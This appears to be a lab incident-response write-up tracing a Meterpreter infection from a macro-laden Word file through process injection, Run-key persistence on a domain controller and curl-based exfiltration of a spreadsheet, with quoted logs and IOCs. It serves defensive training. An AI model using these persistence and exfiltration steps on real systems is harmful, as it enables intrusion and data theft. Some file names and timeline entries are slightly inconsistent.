### <span class="hl">TL;DR</span>

A phishing document delivered via download triggered a multi-stage infection chain on host 192.168.10.15 (HD-FIN-03). The malicious Word document important_instructions.docx dropped FSETPBEUsIek.exe, which spawned cmd.exe, wrote and executed a VBS script, used cscript.exe to drop a secondary executable, injected a thread into notepad.exe. The attacker established persistence via a registry Run key pointing to a VBS file in C:\Windows\TEMP\. A second compromised host 192.168.10.29 later exfiltrated sami.xls to the attacker IP 192.20.80.25 via HTTP PUT. Suricata detected Metasploit metsrv.x86.dll payloads in traffic to both victim hosts.

### <span style="color:red">Initial Triage</span>

The investigation started with a broad overview of all events in **IBM QRadar** - a SIEM platform that aggregates logs from multiple sources, correlates them into offenses, and assigns magnitude scores based on severity and relevance. I began by examining the **Top 10 Event Name Results by Count** to understand the distribution of event types across the timeframe.



To focus on the most critical events, I filtered by **Magnitude** to surface the highest-severity correlated events.



The filtered view surfaced **NIDS Alerts** from SO-Suricata with the highest magnitude scores, alongside **Module Logging Command Invocation**, **PowerShell Console** events, and a QRadar custom rule hit for **Exploit Followed by Suspicious Host Activity - Chained**. I started with the Suricata alerts as they indicated active network-level exploitation.

Reviewing the connections view confirmed three victim IPs communicating with the attacker **192.20.80.25** **192.168.10.29**, and revealed a second Suricata hit on **Nov 9, 2020** targeting **192.168.20.20** (DC) - suggesting the attacker pivoted after the initial compromise.



### <span style="color:red">Initial Access</span>

The Suricata NIDS alert at **Nov 8, 2020, 22:30:49** triggered on traffic between **192.20.80.25** (attacker) and **192.168.10.15** (patient zero, HD-FIN-03):

```
ET MALWARE Possible Metasploit Payload Common Construct Bind_API (from server)
Category: A Network Trojan was detected
```




Examining the payload, the UTF view revealed `metsrv.x86.dll` and `ReflectiveLoader` strings - confirming this is a **Metasploit Meterpreter** reverse shell payload delivered as a reflectively-loaded DLL.



### <span style="color:red">Execution Chain</span>

Pivoting to process creation events on `192.168.10.15` and sorting chronologically revealed the full execution chain. At **22:30:03** WINWORD.EXE launched with the following command:

```
"C:\Program Files\Microsoft Office\Office15\WINWORD.EXE" /n
"C:\Users\nour.HACKDEFEND\Downloads\important_instructions.docx" /o ""
```



The user `nour` opened `important_instructions.docx` (MD5: `9D08221599FCD9D35D11F9CBD6A0DEA3`) from the Downloads folder. The `/o ""` flag suppresses the splash screen, consistent with a document that auto-executes a macro on open. At **22:30:51** - 48 seconds after Word launched - a new process was created directly in the user's profile directory:

```
C:\Users\nour.HACKDEFEND\FSETPBEUsIek.exe
MD5: 6F37EB2B7F6720B48588FB2B84ED17C8
```




The random-looking name `FSETPBEUsIek.exe` dropped directly into the user's home folder is a strong indicator of a VBA macro dropper - Word macros commonly write and execute payloads to the current user's directory without requiring elevated privileges.

At **22:32:37** `FSETPBEUsIek.exe` spawned `cmd.exe`:

```
C:\Windows\system32\cmd.exe
CurrentDirectory: C:\Users\nour.HACKDEFEND\
User: HACKDEFEND\nour
```

At **22:35:04** the executable wrote and executed a VBS script:

```
FSETPBEUsIek.exe → C:\Users\NOUR~1.HAC\AppData\Local\Temp\uCOadJlMb.vbs
```



At **22:35:17** `cscript.exe` executed the VBS script, which in turn dropped a secondary executable:

```
C:\Windows\SysWOW64\cscript.exe
TargetFilename: C:\Users\NOUR~1.HAC\AppData\Local\Temp\radD54BD.tmp\FaFRuwJIlNvBNaT.exe
```

### <span style="color:red">Process Injection and Privilege Escalation</span>

At **22:35:37** a CreateRemoteThread event was logged - a process injects a thread into another process, which is the primary mechanism used by Meterpreter to migrate into a less suspicious host process:

```
Source: C:\Users\nour.HACKDEFEND\FSETPBEUsIek.exe
Target: C:\Windows\SysWOW64\notepad.exe
```



By injecting into `notepad.exe`, the malware migrated its execution context into a trusted Windows process. At **22:35:46** - nine seconds after the injection - a **Success Audit: An account was successfully logged on** event fired with `AccountName: SYSTEM`, confirming the injected code successfully escalated privileges to SYSTEM.

### <span style="color:red">Lateral Movement and Persistence</span>

On **Nov 9, 2020, 09:51:45** Suricata fired a second Metasploit payload alert - this time with source `192.20.80.25` and destination `192.168.20.20` (the Domain Controller), confirming the attacker pivoted laterally from HD-FIN-03 to the DC.

Shortly after, at **09:53:39**, a Sysmon **RegistryEvent (Value Set)** (Event ID 13) was logged on the DC:

```
Image:         C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
Target Object: HKU\DEFAULT\Software\Microsoft\Windows\CurrentVersion\Run\SsGHOMcjsj
Target Details: C:\Windows\TEMP\PjvQTe.vbs
```



The attacker used PowerShell to write a VBS file path into the `HKCU\...\Run` registry key under the DEFAULT user hive.

### <span style="color:red">Exfiltration</span>

Filtering events for the second victim host `192.168.10.29` and the attacker IP revealed a Suricata alert at **Nov 9, 2020, 10:29:52**:

```
ET INFO Dotted Quad Host XLSX Request
ET POLICY curl User-Agent Outbound
```

Examining the payload of the associated HTTP connection confirmed active exfiltration:

```
PUT /sami.xlsx
Host: 192.20.80.25
User-Agent: curl/7.55.1
Content-Type: application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
request_body_len: 43062
```



The attacker used `curl` to upload `sami.xlsx` (43 KB) via HTTP PUT directly to their server at `192.20.80.25`. The curl User-Agent and dotted-quad host in a spreadsheet request are both highly anomalous and were correctly flagged by Suricata.


### <span class="hl">IOCs</span>

**IPs**  
\- 192.20.80.25 - attacker IP and Metasploit C2 server  
\- 192.168.10.15 - patient zero (HD-FIN-03, user nour)  
\- 192.168.10.29 - second compromised host (exfiltration source)  
\- 192.168.20.20 - Domain Controller (lateral movement target, persistence established)  
**Files**  
\- important_instructions.doc  - MD5:9D08221599FCD9D35D11F9CBD6A0DEA3 
\- C:\Users\nour.HACKDEFEND\FSETPBEUsIek.exe - MD5:6F37EB2B7F6720B48588FB2B84ED17C8  
\- C:\Users\NOUR1.HAC\AppData\Local\Temp\uCOadJlMb.vbs - VBS dropper  
\- C:\Users\NOUR1.HAC\AppData\Local\Temp\radD54BD.tmp\FaFRuwJIlNvBNaT.exe - secondary payload  
\- C:\Windows\TEMP\PjvQTe.vbs - persistence VBS script  
\- sami.xlsx - exfiltrated file 
**Registry**  
\- HKU\DEFAULT\Software\Microsoft\Windows\CurrentVersion\Run\SsGHOMcjsj - persistence key  
**Accounts**  
\- HACKDEFEND\nour - compromised user account

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef inject fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;
    classDef c2 fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000;
    classDef start fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000;

    A([nour - 192.168.10.15<br/>HD-FIN-03]):::start --> B[Nov 8 22:30:03 - WINWORD.EXE opened<br/>important_instructions.docx<br/>MD5: 9D08221599FCD9D35D11F9CBD6A0DEA3]:::access
    B --> C[Nov 8 22:30:51 - VBA macro drops<br/>FSETPBEUsIek.exe<br/>MD5: 6F37EB2B7F6720B48588FB2B84ED17C8]:::exec
    C --> D[Nov 8 22:32:37 - cmd.exe spawned]:::exec
    C --> E[Nov 8 22:35:04 - VBS written<br/>uCOadJlMb.vbs]:::exec
    E --> F[Nov 8 22:35:17 - cscript.exe drops<br/>FaFRuwJIlNvBNaT.exe]:::exec

    subgraph Injection [Injection and Escalation]
        F --> G[Nov 8 22:35:37 - CreateRemoteThread<br/>inject into notepad.exe]:::inject
        G --> H[Nov 8 22:35:46 - SYSTEM logon confirmed]:::inject
        H --> I[Nov 8 22:30:49 - Suricata<br/>metsrv.x86.dll detected<br/>192.20.80.25 to 192.168.10.15]:::c2
    end

    subgraph Lateral [Lateral Movement and Persistence]
        I --> J[Nov 9 09:51:45 - Suricata<br/>Metasploit payload<br/>192.20.80.25 to DC 192.168.20.20]:::persist
        J --> K[Nov 9 09:53:39 - Registry Run key<br/>HKU\DEFAULT\...\Run\SsGHOMcjsj<br/>C:\Windows\TEMP\PjvQTe.vbs]:::persist
    end

    subgraph Exfil [Exfiltration]
        K --> L[Nov 9 10:29:52 - curl PUT /sami.xlsx<br/>192.168.10.29 to 192.20.80.25<br/>43062 bytes]:::exfil
    end
